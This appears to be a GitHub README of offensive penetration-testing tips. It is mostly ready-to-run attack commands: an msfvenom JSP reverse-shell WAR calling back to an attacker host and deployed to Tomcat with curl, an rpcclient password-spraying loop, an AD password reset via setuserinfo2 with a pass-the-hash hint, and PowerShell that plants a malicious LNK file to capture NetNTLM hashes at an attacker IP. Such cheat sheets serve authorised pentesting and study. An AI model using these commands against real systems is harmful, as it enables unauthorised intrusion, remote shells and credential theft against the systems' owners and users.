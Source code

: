 # PenTips
Offensive security & penetration testing tips

### Tip 1
##### Tomcat
**Subject** : Deploy a new application archive (WAR) remotely without manager-gui role using curl.
<br/>Required roles : **manager-script** (tomcat-users.xml).
<br/>(By default, no user is included in the "manager-gui" role required to operate the "/manager/html" web application).

If the Host is configured with *unpackWARs=true* (server.xml) and you deploy a war file, it will be unpacked into a directory in your Host appBase directory.
<br/>`<Host name="localhost"  appBase="webapps" unpackWARs="true" autoDeploy="true">`

In order to produce a new application archive (WAR) containing JSP reverse shell, you can use **msf-venom**.
<br/>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f war > rev.war`

Deploy new application archive (WAR) remotely using curl.
<br/>`curl -X PUT -T rev.war http://tomcat:password@10.10.10.50:8080/manager/text/deploy?path=/applicationname`

Access new application archive to execute the JSP payload.
<br/>`curl -u 'tomcat':'password' http://10.10.10.50:8080/applicationname/vnmsydlc.jsp`

### Tip 2
##### RPC password spraying

while read x; do echo $x; rpcclient -U “DOMAIN/$x%PasswOrd123” -c “getusername;quit” 192.168.0.110; done < ./userlist.txt

Using bash script:
<br/>`#/bin/bash`
<br/>`for u in 'cat dom_users.txt'`
<br/>`do echo -n "[*] user: $u" && rpcclient -U "$u%password" -c "getusername;quit" 10.10.10.192`
<br/>`done`

### Tip 3
##### AD user password modification using rpcclient
`user@host # rpcclient -U supportAccount //192.168.0.100`
<br/>[...] authenticate using the supportAccount password which needs to be modified
<br/>`rpcclient $> setuserinfo2 supportAccount 23 SuperNewPassword22`

--> Note : If package passing-the-hash is installed on attacker machine, you can even do this with just a NTLM hash. (Flag : --pw-nt-hash)

### Tip 4
##### Drop malicious LNK file on share to retrieve NetNTLM hashes
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\<attackerIP>\@file.txt"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "LNK file"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
